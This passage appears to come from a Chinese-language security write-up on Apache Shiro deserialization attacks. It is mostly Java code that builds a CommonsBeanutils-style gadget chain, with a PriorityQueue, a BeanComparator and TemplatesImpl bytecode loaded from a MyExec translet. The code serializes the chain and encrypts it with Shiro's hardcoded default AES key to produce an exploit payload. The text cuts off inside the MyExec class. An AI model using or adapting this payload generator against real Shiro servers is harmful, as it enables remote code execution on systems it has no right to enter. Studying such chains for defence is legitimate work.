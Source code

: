 ```java
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = getTemplate();

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(queue);
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));//shiro默认密钥
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }
    public static TemplatesImpl getTemplate() throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass clz = classPool.get(MyExec.class.getName());

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clz.toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        return obj;
    }

}
```

`MyExec`类如下：

```java
package ysoserial.poc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class MyExec extends AbstractTranslet {

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

```